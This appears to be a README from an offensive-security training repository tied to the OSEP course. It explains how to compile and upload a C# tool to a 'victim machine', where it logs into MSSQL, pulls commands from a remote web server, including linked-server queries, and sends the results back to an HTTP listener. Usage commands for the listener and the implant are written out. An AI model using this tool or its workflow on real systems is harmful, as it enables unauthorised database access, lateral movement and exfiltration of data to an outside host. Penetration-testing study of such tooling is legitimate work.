 I created this code as an alternative to the methods presented in the OSEP course. This code, when compiled, will login and run commands on an MSSQL DB and then send the results back over http/https(untested) to http-server.py in the Linux section of this repository. 

### Usage

1. start http-server.py
   
`python3 ../../../OSEP-Code-And-Notes/Linux/Python/http-server.py --port 8000 --log requests.log`

1. Compile and Upload the C# code in this directory to the victim machine
   
3. Create a file with SQL commands one would like to have proccessed. The text file requires the following format:
	1. username (if using Integrated Security just use the string `username`)
	2. password (Integrated Security default this to `password`)
	3. MSSQL host
	4. commands...1 per line

Example command file:
```sql
username
password
mssql01.example.com
master
EXEC sp_linkedservers;
select myuser from openquery("mssql02", 'select SYSTEM_USER as myuser');
```

4. Run the code on the victim's machine: `Program.exe -w http://<address of webserver with command file> -g <command file>`
   
6. `tail` the logfile to find the output in Base64 and if the output is less than 4kb (arbitrary number set by me), there will be a plain text representation.

